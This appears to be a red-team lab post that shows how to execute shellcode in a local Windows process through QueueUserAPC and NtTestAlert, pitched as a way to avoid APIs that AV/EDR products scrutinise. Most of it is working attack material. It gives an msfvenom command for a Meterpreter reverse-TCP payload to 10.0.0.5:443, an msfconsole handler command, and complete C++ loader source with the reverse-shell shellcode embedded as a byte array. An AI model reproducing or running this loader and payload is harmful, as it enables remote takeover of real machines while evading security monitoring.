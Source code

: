 ```yaml
---
layout: post
title: "2024-06-18-shellcode execution in a local process with queueuserapc and nttestalert"
date: 2024-06-18
categories: code-injection-process-injection
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /shellcode-execution-in-a-local-process-with-queueuserapc-and-nttestalert/
---
```


# Shellcode Execution in a Local Process with QueueUserAPC and NtTestAlert

This is a quick lab that shows how to execute shellcode within a local process by leveraging a Win32 API `QueueUserAPC` and an officially undocumented Native API `NtTestAlert`, which lands in kernel that calls `KiUserApcDispatcher` if the APC queue is not empty.

The advantage of this technique is that it does not rely on `CreateThread` or `CreateRemoteThread` API calls which are more popular and hence usually more scrutinized by SOCs and AV/EDR vendors.

Thanks to [Mumbai](https://twitter.com/win64\_) for pointing me to `NtTestAlert`.

## Execution

The flow of the technique is simple:

1. Allocate memory in the local process for the shellcode
2. Write shellcode to the newly allocated memory location
3. Queue an APC to the current thread
4. Issue `NtTestAlert`
5. Receive meterpreter session

Lets's generate the meterpreter shellcode first:

{% code title="attacker@kali" %}
```csharp
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c
```
{% endcode %}

![](<../../.gitbook/assets/Annotation 2019-05-27 191650.png>)

Short code that performs `NtTestAlert` function address resolution, memory allocation, shellcode writing to memory, APC queuing and `NtTestAlert` call:

![](<../../.gitbook/assets/Annotation 2019-05-27 192952.png>)

Now, set up a multi handler for catching the incoming meterpreter connection:

{% code title="attacker@kali" %}
```csharp
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/x64/meterpreter/reverse_tcp; exploit"
```
{% endcode %}

Below shows the technique in action, resulting in a meterpreter shell:

![](../../.gitbook/assets/apc-local.gif)

## Code

{% code title="local-apc.cpp" %}
```cpp
#include "pch.h"
#include <Windows.h>

#pragma comment(lib, "ntdll")
using myNtTestAlert = NTSTATUS(NTAPI*)();

int main()
{
	unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";
	myNtTestAlert testAlert = (myNtTestAlert)(GetProcAddress(GetModuleHandleA("ntdll"), "NtTestAlert"));
	SIZE_T shellSize = sizeof(buf);
	LPVOID shellAddress = VirtualAlloc(NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

	WriteProcessMemory(GetCurrentProcess(), shellAddress, buf, shellSize, NULL);
	
	PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
	QueueUserAPC((PAPCFUNC)apcRoutine, GetCurrentThread(), NULL);
	testAlert();

	return 0;
}
```
{% endcode %}

## Reference

{% embed url="https://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FAPC%2FNtTestAlert.html" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-queueuserapc" %}
@spotheplanet
